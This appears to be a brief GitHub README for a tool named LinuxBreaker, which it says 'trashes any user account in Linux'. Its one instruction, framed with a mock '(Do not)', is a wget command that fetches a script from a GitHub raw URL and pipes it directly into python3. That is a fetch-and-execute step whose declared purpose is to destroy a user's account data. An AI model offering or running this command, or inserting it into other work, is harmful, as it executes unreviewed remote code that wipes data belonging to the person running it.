 # LinuxBreaker
Trashes any user account in Linux

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/<path>/<file> | python3

